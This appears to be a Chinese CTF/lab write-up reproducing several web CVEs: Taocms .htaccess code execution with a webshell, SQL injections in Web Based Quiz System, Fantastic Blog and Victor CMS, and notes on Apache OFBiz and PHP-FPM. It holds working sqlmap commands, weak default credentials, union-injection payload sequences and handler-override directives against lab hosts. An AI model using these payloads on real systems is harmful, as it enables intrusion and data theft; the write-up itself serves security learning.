## CVE-2022-25578

### #RCE



CVE-2022-25578是Taocms v3.0.2中存在的一个安全漏洞，该漏洞允许攻击者通过任意编辑.htaccess文件来执行代码注入攻击。

### Taocms

taoCMS是一个完善支持多数据库(Sqlite/Mysql)的CMS网站内容管理系统，是国内最小的功能完善 的基于php+SQLite/Mysql的CMS。体积小（仅180Kb）速度快，包含文件管理、数据采集、Memcache整 合、用户管理等强大功能，跨平台运行，支持SAE、BAE云服务。兼容PHP5和PHP7.代码手写采用严格的数据过滤，保证 服务器的安全稳定！

打开靶机



提示先去后台设置，在底下发现管理按键，打开是登录界面，弱口令密码admin&tao成功登录



在文件管理页面拿到路径的文件及其文件内容,我们进入.htaccess文件

### .htaccess文件

参考文章:[与 .htaccess 相关的奇淫技巧](https://www.anquanke.com/post/id/241147#h2-10)

.htaccess 文件是Apache中有一种特殊的文件，其提供了针对目录改变配置的方法，即在一个特定的文档目录中放置一个包含一条或多条指令的文件，以作用于此目录及其所有子目录。

作用范围：

.htaccess 文件中的配置指令作用于 .htaccess 文件所在的**目录及其所有子目录**，但是很重要的、需要注意的是，其上级目录也可能会有 .htaccess 文件，而指令是按查找顺序依次生效的，所以一个特定目录下的 .htaccess 文件中的指令可能会覆盖其上级目录中的 .htaccess 文件中的指令，即子目录中的指令会覆盖父目录或者主配置文件中的指令。

### .htaccess 常见指令

**AddType 指令**

```
AddType application/x-httpd-php .jpeg .png
```

**AddType 指令可以将给定的文件扩展名映射到指定的内容类型。**

这个指令的主要作用是文件上传时候如果我们上传一个后缀为png或者jpeg的文件，当它们被访问时，应该用PHP解析器来解析。意味着我们可以通过在这些后缀的文件中插入恶意php代码去达到我们的进攻目的

- 防范:如果你发现你的.htaccess文件被修改了，你应该检查文件的修改日期和所有者，以确保它没有被未经授权的访问者更改。如果可能的话，你应该备份你的.htaccess文件，并定期检查它的内容，以确保它没有被修改。

或者也可以这样设置

**SetHandler指令**

```
SetHandler application/x-httpd-php
```

**SetHandler 指令可以强制所有匹配的文件被一个指定的处理器处理。**

这个指令的主要作用是告诉 Apache，任何匹配的文件都应该通过 PHP 处理器来处理。当前目录及其子目录下所有文件都会被当做 php 解析。

然后我们找个php文件去编写我们的一句话木马，我这里找了api.php去写入一句话木马，写完后访问/api.php然后用蚁剑去连接就可以了

## CVE-2022-32991

### #SQL注入



漏洞信息

|  漏洞名称  |          Web Based Quiz System SQL注入           |
| :--------: | :----------------------------------------------: |
|  漏洞编号  |                  CVE-2022-32991                  |
|  危害等级  |                       高危                       |
|  漏洞类型  |                     SQL注入                      |
|  漏洞厂商  |                        -                         |
|  漏洞组件  |              Web Based Quiz System               |
| 受影响版本 | Web Based Quiz System Web Based Quiz System V1.0 |

漏洞概述 : Web Based Quiz System v1.0版本存在SQL注入漏洞，该漏洞源于welcome.php中的eid参数缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令窃取数据库敏感数据。

开始复现

登录界面随便注册一个账号后登入



进入之后我们观察url，发现我们此时就在welcome.php，并且url后面跟着一个参数q，随便点击一个start看到出现了很多参数

```
http://eci-2ze3jxvbttwrc7antdrn.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34
```

直接拖到sqlmap里面测试一下注入点

```
python3 sqlmap.py -u 'http://eci-2ze3jxvbttwrc7antdrn.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34'
```



后面直接一把梭就行

```
python3 sqlmap.py -u 'http://eci-2ze3jxvbttwrc7antdrn.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34' -D ctf -T flag -C flag --dump --batch
```

等待的同时我们也可以手工测一下发现是时间盲注

```
http://eci-2ze3jxvbttwrc7antdrn.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694' or sleep(0.3)--+&n=1&t=34
```

一开始选的时间太大导致睡死了，后面调到0.3的话差不多6s左右

## CVE-2022-28512

### #SQL联合注入

Fantastic Blog (CMS)是一个绝对出色的博客/文章网络内容管理系统。它使您可以轻松地管理您的网站或博客，它为您提供了广泛的功能来定制您的博客以满足您的需求。它具有强大的功能，您无需接触任何代码即可启动并运行您的博客。 该CMS的/single.php路径下，id参数存在一个SQL注入漏洞。

- 影响版本

Fantastic Blog CMS 1.0 版本

开始复现

打开是Fantastic Blog的页面


先扫一下目录吧



访问一下/single.php试一下



参数给出来了是id，我们传一个1和1'就可以看到存在注入了

传入1%27的时候出现错误回显



直接sqlmap一把梭



后来看到别的师傅的wp，这里还可以做一个身份的伪造，先传入/single.php?id=1然后抓包



使用cookie参数可以绕过身份验证，添加user-agent参数可以绕过客户端验证，否则可能会被识别到明显的sqlmap客户端标识，从而导致攻击的中断

当然也是可以直接手搓的(建议手搓加深印象)

过滤字符:#,

```
/single.php?id=1' order by 10--+出现错误，判断字段数为10
/single.php?id=-1' union select 1,2,3,4,5,6,7,8,9--+发现回显位置2和4
/single.php?id=-1' union select 1,database(),3,4,5,6,7,8,9--+爆数据库
/single.php?id=-1%27union%20select%201,2,3,group_concat(table_name),5,6,7,8,9%20from%20information_schema.tables%20where%20table_schema=%27ctf%27--+爆表名
/single.php?id=-1%27union%20select%201,2,3,group_concat(column_name),5,6,7,8,9%20from%20information_schema.columns%20where%20table_name=%27flag%27--+爆字段名
/single.php?id=-1%27%20union%20select%201,database(),3,group_concat(flag),5,6,7,8,9%20from%20flag--+爆数据
```

注意这里联合注入的时候需要用-1，不然找不到注入点

## CVE-2022-28060

### #SQL注入读取文件

CVE-2022-28060 是 Victor CMS v1.0 中的一个SQL注入漏洞。该漏洞存在于 /includes/login.php 文件中的 user_name 参数。攻击者可以通过发送特制的 SQL 语句，利用这个漏洞执行未授权的数据库操作，从而访问或修改数据库中的敏感信息。

**漏洞详细信息**

- **漏洞类型**：SQL注入
- **受影响的组件**：Victor CMS v1.0
- **攻击途径**：远程攻击者可以利用该漏洞，通过发送特制的请求来执行任意的 SQL 语句。
- **漏洞严重性**：高 (CVSS v3 基础分数：7.5)

打开后在登录框随便输入然后抓包(不知道为啥开bp代理后页面就是空白的，好不容易抓到的包)



可以看到是post请求包，直接保存请求包内容为txt文件然后用sqlmap跑一下看看需不需要伪造验证

```
python3 sqlmap.py -r 1.txt --batch
```



找到注入点user_name，爆一下数据库



没有明显的flag相关的数据库名，考虑是否需要读写文件

我们知道SQL注入漏洞除了可以对数据库进行数据的查询之外，还可以对的服务器的文件进行读写操作。

在mysql中读取文件

```
python3 sqlmap.py --batch -D "mysql" --file-read "/flag"
```

然后cat读取文件就行



## CVE-2024-36104

### #目录遍历

Apache OFBiz 目录遍历致代码执行漏洞，攻击者可构造恶意请求控制服务器。

- 影响组件

Apache OFBiz是⼀个著名的电⼦商务平台，提供了创建基于最新 J2EE/ XML规范和技术标准，构建⼤中型企业级、跨平台、跨数据库、跨应⽤服务器的多层、分布式电⼦商务类WEB应⽤系统的框架。

- 影响版本

Apache OFBiz < 18.12.14

## CVE-2019-11043

**漏洞描述**

Nginx 上 fastcgi_split_path_info 在处理带有 %0a 的请求时，会因为遇到换行符 \n 导致 PATH_INFO 为空。而 php-fpm 在处理 PATH_INFO

为空的情况下，存在逻辑缺陷。攻击者通过精心的构造和利用，可以导致远程代码执行。

**利用条件：**nginx配置了fastcgi_split_path_info

**受影响系统：**PHP 5.6-7.x，Nginx>=0.7.31

那我们先来看一下nginx.conf中的具体配置

```
location ~ [^/]\.php(/|$) {

 ...

 fastcgi_split_path_info ^(.+?\.php)(/.*)$;

 fastcgi_param PATH_INFO $fastcgi_path_info;

 fastcgi_pass   php:9000;

 ...

}
```

解释一下

`fastcgi_split_path_info ^(.+?\.php)(/.*)$;`

这一行将请求 URI 分割为两部分：

- 第一个捕获组 `(.+?\.php)` 匹配以 `.php` 结尾的最短路径，作为脚本文件名
- 第二个捕获组 `(/.*)`匹配剩余的路径信息
- 结果会被存储在 `$fastcgi_script_name` 和 `$fastcgi_path_info` 变量中

用的是非贪婪匹配 (`+?`)，这样可以确保只匹配到第一个找到的 `.php` 文件。

2. `fastcgi_param PATH_INFO $fastcgi_path_info;`

这一行将 Nginx 解析出的路径信息传递给 PHP-FPM，作为 `PATH_INFO` 环境变量。PHP 可以通过 `$_SERVER['PATH_INFO']` 访问这个值。

此时我们可以使用换行符（％0a）来破坏`fastcgi_split_path_info`指令中的Regexp。Regexp被损坏导致PATH_INFO为空，从而触发该漏洞。
